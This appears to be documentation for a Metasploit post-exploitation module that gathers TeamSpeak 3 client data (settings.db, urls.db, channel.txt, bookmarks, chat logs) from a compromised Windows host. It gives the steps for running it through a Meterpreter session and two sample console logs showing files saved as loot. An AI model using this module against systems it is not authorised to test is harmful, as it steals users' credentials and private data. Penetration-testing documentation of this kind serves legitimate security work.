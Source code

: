 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the TeamSpeak 3 Client.

The TeamSpeak 3 Client is avaialble from (https://www.teamspeak3.com/teamspeak-download.php).

This module extracts information from the setting.db, urls.db and channel.txt files in the "AppData\Roaming\TS3Client" directory.

This module extracts server bookmarks, chat logs, last connected server and saved urls.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/teamspeak3_client
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### TeamSpeak 3 Client v3.6.1 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/teamspeak3_client) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Teamspeak 3 client's Settings.db file found
[*] Downloading C:\Users\test\AppData\Roaming\TS3Client\settings.db
[*] Teamspeak 3 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510155124_default_10.0.0.2_teamspeak3clie_185144.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510155124_default_10.0.0.2_EXTRACTIONSsetti_578247.db
[*] Teamspeak 3 client's Settings.db file found
[*] Downloading C:\Users\test\AppData\Roaming\TS3Client\settings.db
[*] Teamspeak 3 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510155124_default_10.0.0.2_teamspeak3clie_894212.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510155125_default_10.0.0.2_EXTRACTIONSsetti_824068.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### TeamSpeak 3 Client v3.6.1 on Windows 10 Home 10.0.19045 N/A Build 19045 Verbose
```
msf6 post(windows/gather/credentials/teamspeak3_client) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Teamspeak 3 client's base folder not found in user's user directory

[-] Teamspeak 3 client's base folder not found in user's user directory

[-] Teamspeak 3 client's base folder not found in users's user directory

[-] Teamspeak 3 client's base folder not found in user's user directory

[*] Starting Packrat...
[*] Teamspeak 3 client's base folder found
[*] Found the folder containing specified artifact for urls.db.
[-] Teamspeak 3 client's Urls.db not found in Test's user directory

[-] Skipping urls.db since it was not found on the user's folder.
[*] Teamspeak 3 client's base folder found
[*] Found the folder containing specified artifact for settings.db.
[*] Teamspeak 3 client's Settings.db file found
[*] Processing C:\Users\test\AppData\Roaming\TS3Client
[*] Downloading C:\Users\test\AppData\Roaming\TS3Client\settings.db
[*] Teamspeak 3 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510155252_default_10.0.0.2_teamspeak3clie_706809.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510155252_default_10.0.0.2_EXTRACTIONSsetti_424766.db
[*] Teamspeak 3 client's base folder found
[*] Found the folder containing specified artifact for channel.txt.
[-] Teamspeak 3 client's Channel.txt not found in Test's user directory

[-] Skipping channel.txt since it was not found on the user's folder.
[*] Teamspeak 3 client's base folder found
[*] Found the folder containing specified artifact for settings.db.
[*] Teamspeak 3 client's Settings.db file found
[*] Processing C:\Users\test\AppData\Roaming\TS3Client
[*] Downloading C:\Users\test\AppData\Roaming\TS3Client\settings.db
[*] Teamspeak 3 client Settings.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510155253_default_10.0.0.2_teamspeak3clie_241400.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510155253_default_10.0.0.2_EXTRACTIONSsetti_892091.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
